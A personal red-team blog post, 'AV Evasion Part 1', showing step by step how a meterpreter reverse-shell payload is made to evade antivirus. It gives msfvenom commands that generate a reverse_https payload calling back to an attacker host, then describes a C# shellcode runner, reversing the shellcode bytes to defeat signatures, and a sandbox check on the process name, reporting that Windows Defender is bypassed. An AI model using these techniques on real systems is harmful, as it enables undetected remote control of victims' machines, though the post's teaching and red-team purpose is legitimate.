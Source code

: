 ```yaml
---
layout: post
title: 'AV Evasion Part 1'
category: evasion
---
```


After passing the [Offensive Security Certified Professional](https://www.offensive-security.com/pwk-oscp/) I felt on top of the world.  
But soon reality crept in and I realized that Windows Defender flagged the majority of what I was taught.  This gave me a false sense of security from a blue team standpoint in thinking that "Modern Anti-Virus companies are pretty good.  There is no way an attacker is sneaking past my EDR.

I was wrong.

It turns out that just playing with the payload a little bit completely negates detection and let's the red team run free.  I want to demonstrate in this post some fundamentals of Anti-Virus evasion.

We will start and see what a vanilla meterpreter payload gets us.  The following command will generate a meterpreter .exe file in Kali Linux.

<code>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f exe -o blog1.exe</code>

Now let's upload this to [antiscan.me](https://antiscan.me) and see how it gets detected.  AntiScan.me is used since it doens't distribute binaries to the AV venders which makes it more stealthy.

<img src="images/evasion1/vanillaResult.PNG">

18/26 is a fair bit of detection.
(It's 2021, how do you not detect a vanilla meterpreter payload.  Come on vendors).

This would have been the end of me in my original PwK days.  Thanks to some basic [OSEP](https://www.offensive-security.com/pen300-osep/) training, we have a good base to work with.

Modern day malware heavily utilizes the Win32 API that is  built into Windows for several reasons.  
<ul>
<li> it is built into Windows so functionality doesn't have to be re-written </li>
<li> It doesn't get flagged by AV</li>
<li> it is fast and <i>usually</i> well documented. </li>
</ul>

<img src="images/evasion1/winVanillaPayload.PNG">

We choose c# in this demonstration as it is easy to work in and well documented.  languages such as Boo and Nim work just as well.
This is a standard Win32 API shellcode runner in c# written in Visual Studio.  It uses the following function prototypes that were pulled from [P/Invoke](https://pinvoke.net). 

 * [VirtualAlloc](http://pinvoke.net/default.aspx/kernel32/VirtualAlloc.html) - Create an executable piece of memory.
 * [CreateThread](http://pinvoke.net/default.aspx/kernel32/CreateThread.html) - To start execution of the shellcode in memory. 
 * [WaitForSingleObject](http://pinvoke.net/default.aspx/kernel32/WaitForSingleObject.html) - To not crash upon receiving a command. 
 
We will generate some meterpreter c# shellcode and paste where the comment says to. 
<code> msfvenom -p windows/x64/meterpreter/reverse_https lhost=eth0 lport=443 -f csharp </code>


Lets compile our shellcode runner and scan again.

<img src="images/evasion1/winVanillaReverse.PNG">

15 out of 26 still isn't great.  Let's play with our code and see if we can't get it down even farther.

Since we know our Win32 APIs aren't getting flagged by signature checks.  Let's mess with our shellcode.

Our shellcode get's stored as an Array in c#.  We can store our shellcode backwards and utilize the Array.Reverse() method to restore our shellcode at runtime to evade detection.

We will use [this site](https://yupana-engineering.com/online-reverse-byte-array) to reverse our byte array.

We will take the output from the website and put it over our existing shellcode.

Finally, we will implement our Array.Reverse method.  I went ahead and changed the buf variable name in case it would be associated with the signature.

<img src="images/evasion1/ArrayReverse.PNG">

Let's reupload and see how we did.

<img src="images/evasion1/winReverse1Result.PNG">

Our bypass was very sucessful!  Only 6 AVs are catching our payload.  Unfortunately, Windows Defender is one of them which is enabled on most devices by default

Let's see if we can't squeeze past it.  
We know our signature detection is pretty good, but what about heuristics? 
Unknown applications get executed in a sandbox before being allowed to execute natively.  If our payload can detect if we are in a sandbox, we can evade being flagged as malicious and execute.

Most sandboxes will dynamically rename the payload.  We will implement a simple process name check in our code and exit gracefully if the .exe is not named "hop.exe"

C# allows us to do this natively with the Diagnostics library using <code>System.Diagnostics.Process.GetCurrentProcess();</code>

<img src="images/evasion1/FinalPayloadCheck.PNG">
 
Our code now checks to see if our process is named "hop.exe".  Let's upload one more time to see if we are sucessful.

<img src="images/evasion1/FinalPayloadResults.PNG">

Excellent, our payload now evades Windows Defender and is only caught by 5 obscure AVs. Even better, the naming convention tells us we are suspect of a known malware variant or heuristics.

A follow up challenge for the reader is to research HEUR/AGEN.1131009 to see what the heuristic behavior our payload is performing and to research the Rozena malware for similarities to our payloads.

This concluses part one of my AV Evasion writeup and my first post.  

"Hop" to see everyone next time. 
